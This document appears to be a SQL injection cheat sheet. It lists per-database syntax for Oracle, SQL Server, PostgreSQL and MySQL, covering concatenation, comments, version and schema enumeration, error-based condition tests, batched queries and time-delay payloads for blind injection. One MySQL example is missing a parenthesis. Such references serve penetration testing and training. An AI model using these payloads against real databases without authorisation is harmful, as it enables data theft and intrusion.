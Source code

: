 Different database types often have different syntaxes.

# String concatenation
String concatenation is the process of combining multiple strings to make a single string. It is useful for extracting multiple columns in one column slot.
- Oracle: `'abc'||'xyz'`
- Microsoft: `'abc'+'xyz'`
- PostgreSQL: `'abc'||'xyz'`
- MySQL: `'abc' 'xyz'` or `CONCAT('abc','xyz'`

# Substrings
Getting a substring means extracting a smaller portion of a string. It can be useful for letter-by-letter examination. The following substrings extract the value `de` from `abcdef`.
- Oracle: `SUBSTR('abcdef', 4, 2)`
- Microsoft: `SUBSTRING('abcdef', 4, 2)`
- PostgreSQL: `SUBSTR('abcdef', 4, 2)` or `SUBSTRING('abcdef', 4, 2)`
- MySQL: `SUBSTRING('abcdef', 4, 2)`

# Comments
Comments can be used to ignore the remainder of a query.
- Oracle: `--comment` or `/*comment*/`
- Microsoft: `--comment` or `/*comment*/`
- PostgreSQL: `--comment` or `/*comment*/`
- MySQL: `-- comment`, `#comment`, or `/*comment*/`

# Getting the database version
- Oracle: `SELECT banner FROM v$version` or `SELECT version FROM v$instance`
- Microsoft: `SELECT @@version`
- PostgreSQL: `SELECT version()`
- MySQL: `SELECT @@version`

# Getting table names
- Oracle: `SELECT * FROM all_tables`
- Microsoft: `SELECT * FROM information_schema.tables`
- PostgreSQL: `SELECT * FROM information_schema.tables`
- MySQL: `SELECT * FROM information_schema.tables`

# Getting column names
- Oracle: `SELECT * FROM all_tab_columns WHERE table_name = '<table name>'`
- Microsoft: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- PostgreSQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- MySQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`

# Testing conditions
Testing conditions can be used to see if something is true, such as if a certain table exists. There are many ways to do this, and these are just one example.
- Oracle: `SELECT CASE WHEN (<condition>) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft: `SELECT CASE WHEN (<condition>) THEN 1.0 ELSE NULL END`
- PostgreSQL: `1 = (SELECT CASE WHEN (condition) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`
- MySQL: `SELECT IF(condition, (SELECT table_name FROM information_schema.tables),'a')`

# Batched queries
A way to run multiple queries in one command line.
- Oracle: Not supported
- Microsoft: `Query 1; Query 2`
- PostgreSQL: `Query 1; Query 2`
- MySQL: `Query 1; Query 2`

# Time delays
Time delays are useful for blind SQL injection. Here are some ways to cause 10 second time delays:
- Oracle: `dbms_pipe.receive_message(('a'),10)`
- Microsoft: `WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT pg_sleep(10)`
- MySQL: `SELECT SLEEP(10)`

# Conditional time delays
Used for checking conditions in blind SQL injection.
- Oracle: `SELECT CASE WHEN (<condition>) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft: `IF (<condition>) WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`
